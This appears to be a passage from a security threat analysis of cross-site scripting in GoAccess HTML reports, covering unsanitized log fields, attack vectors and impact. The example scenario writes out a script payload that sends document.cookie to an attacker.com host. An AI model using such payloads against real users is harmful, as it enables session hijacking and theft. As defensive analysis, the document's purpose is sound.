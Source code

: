 ### 4. Deep Analysis of XSS in HTML Reports

#### 4.1. Vulnerability Details

The core of this vulnerability lies in the potential for GoAccess to directly embed unsanitized log data into the generated HTML reports. When GoAccess processes log files, it extracts various fields like IP addresses, user agents, requested URLs, and referrers. If any of these fields contain malicious JavaScript code, and GoAccess doesn't properly sanitize this input before including it in the HTML output, the browser interpreting the report will execute this script.

**Key Areas of Concern in GoAccess HTML Generation:**

*   **Direct Inclusion of Log Data:**  If GoAccess directly inserts log data into HTML elements without encoding or escaping, it becomes vulnerable. For example, if a referrer field in a log entry contains `<script>alert("XSS")</script>`, and GoAccess includes this directly within a `<td>` tag, the browser will execute the script.
*   **Lack of Output Encoding:**  HTML encoding (e.g., converting `<` to `&lt;`, `>` to `&gt;`) is crucial to prevent the browser from interpreting data as HTML tags or scripts. If GoAccess omits this encoding, injected scripts will be active.
*   **Vulnerable Data Fields:**  Fields like `Referer`, `User-Agent`, and even parts of the `Request` URL are potential injection points as they are often user-controlled and can be manipulated.

#### 4.2. Attack Vectors

An attacker could inject malicious JavaScript code into log data through various means:

*   **Malicious Referrers:**  By visiting a website under the attacker's control, the attacker can set a malicious referrer header containing JavaScript. If this visit is logged by the target application's web server, the malicious script will be present in the logs.
*   **Crafted User-Agent Strings:**  Similar to referrers, attackers can use tools or scripts to send requests with crafted User-Agent strings containing malicious JavaScript.
*   **URL Manipulation:**  In some cases, parts of the requested URL might be logged. Attackers could craft URLs with embedded JavaScript, hoping it gets logged and subsequently included in the HTML report.
*   **Log Injection (Less Likely but Possible):** In scenarios where log files are directly manipulated (e.g., through a compromised system), attackers could directly insert log entries containing malicious scripts.

**Example Attack Scenario:**

1. An attacker crafts a URL with a malicious referrer: `https://victim.com` visited from `https://attacker.com/?ref=<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>`.
2. The victim's web server logs this request, including the malicious referrer.
3. GoAccess processes these logs and generates an HTML report.
4. If GoAccess doesn't sanitize the referrer field, the generated HTML will contain: `<td><script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script></td>`.
5. When a user views this report in their browser, the script executes, potentially sending their session cookie to the attacker's server.

#### 4.3. Impact Assessment

A successful XSS attack through GoAccess HTML reports can have significant consequences:

*   **Session Hijacking:**  As demonstrated in the example, attackers can steal session cookies, allowing them to impersonate legitimate users and gain unauthorized access to the web application.
*   **Credential Theft:**  Malicious scripts can be used to create fake login forms or redirect users to phishing pages, tricking them into entering their credentials.
*   **Redirection to Malicious Sites:**  Attackers can redirect users viewing the reports to malicious websites that could host malware or further phishing attempts.
*   **Defacement:**  The content of the HTML report can be manipulated to display misleading or harmful information, potentially damaging the reputation of the application or organization.
*   **Keylogging:**  More sophisticated scripts could attempt to log keystrokes of users viewing the reports, capturing sensitive information.
*   **Actions on Behalf of the User:**  If the user viewing the report is logged into the application, the malicious script could perform actions on their behalf, such as making unauthorized requests or modifying data.
